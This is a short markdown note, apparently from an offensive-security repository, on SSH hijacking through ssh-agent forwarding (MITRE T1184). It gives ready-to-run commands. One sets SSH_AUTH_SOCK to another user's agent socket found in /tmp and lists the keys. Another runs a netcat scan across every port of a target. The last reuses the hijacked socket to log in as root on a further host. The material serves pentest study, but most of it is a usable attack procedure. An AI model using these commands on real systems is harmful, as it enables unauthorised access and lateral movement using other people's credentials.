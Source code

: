 [SSH Hijacking](https://attack.mitre.org/techniques/T1184/) is a technique to leverage an existing SSH session to SSH into another machine. In order to access an SSH server (which uses public-key authentication) through another server, the private key is not kept on the server. Instead, ssh-agent forwarding is performed on the client machine. The SSH agent socket will be available on the server and can be used to authenticate with the other SSH server via the ssh-agent running on the client machine.


By default socket used to communicate with the ssh agent is stored in `/tmp` directory. Check the files in that directory

So we will set the ssh authentication and then list the aviaable keys to the agent
```bash
SSH_AUTH_SOCK=/tmp/ssh-hucvbyWE/agent.18 ssh-add -l
```
Then we need to find the Network Ip and then open port of ssh connection
```bash
nc -v -n -w2 -z [IP] 1-65535
```

Connect via SSH_AUTH_SOCK
```bash
SSH_AUTH_SOCK=/tmp/ssh-1ce3W/agent.18 ssh root@IP
```
